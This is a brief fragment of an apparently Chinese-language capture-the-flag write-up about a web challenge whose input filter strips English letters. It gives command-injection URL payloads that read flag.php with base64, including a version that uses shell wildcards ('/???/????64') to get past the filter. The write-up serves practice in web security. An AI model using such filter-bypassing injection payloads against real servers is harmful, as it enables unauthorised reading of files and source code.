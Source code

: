 ![image-20240120173657391](image/image-20240120173657391.png)

过滤掉了英文字母

##### 方法一：使用base64对文件进行读取

```url
?c=/bin/base64 flag.php
?c=/???/????64 ????????

```

![image-20240120173910348](image/image-20240120173910348.png)
